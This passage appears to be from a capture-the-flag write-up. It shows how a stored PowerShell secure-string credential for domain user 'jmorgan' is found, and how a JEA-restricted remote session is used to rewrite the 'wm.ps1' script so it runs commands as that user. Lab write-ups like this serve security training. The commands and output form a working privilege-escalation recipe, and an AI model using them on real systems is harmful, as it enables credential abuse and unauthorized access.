 **What's that `wm.ps1` script?**
```powershell
$securepasswd = '01000000d08[...]c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

Oh! **We found domain user `jmorgan` secure password!!**

This PowerShell script will run a PowerShell command `Get-Volume` ***on computer `Acute-PC01` as domain user `jmorgan`.***

**However, we can't just convert the secure string back to plaintext because of JEA's `dc_session` configuration:**
```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { $securepasswd = '01000000d08[...]c51'; $passwd = $securepasswd | ConvertTo-SecureString; $creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd); $creds.GetNetworkCredential().Password }
The term 'ConvertTo-SecureString' is not recognized as the name of a cmdlet, function, script file, or operable 
program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
    + CategoryInfo          : ObjectNotFound: (ConvertTo-SecureString:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
    + PSComputerName        : ATSSERVER
 
The term 'New-Object' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the 
spelling of the name, or if a path was included, verify that the path is correct and try again.
    + CategoryInfo          : ObjectNotFound: (New-Object:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
    + PSComputerName        : ATSSERVER
 
You cannot call a method on a null-valued expression.
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : InvokeMethodOnNull
    + PSComputerName        : ATSSERVER
```

**Hmm... How about modifying the script using `Set-Content`...**
```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { (Get-Content -Path C:\Users\imonks\Desktop\wm.ps1) -replace "Get-Volume", "whoami /all" | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1}
```

**Now try to run the `wm.ps1` PowerShell script:**
```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { C:\Users\imonks\Desktop\wm.ps1 }
USER INFORMATION
----------------

User Name     SID                                           
============= ==============================================
acute\jmorgan S-1-5-21-1786406921-1914792807-2072761762-1108
[...]
```
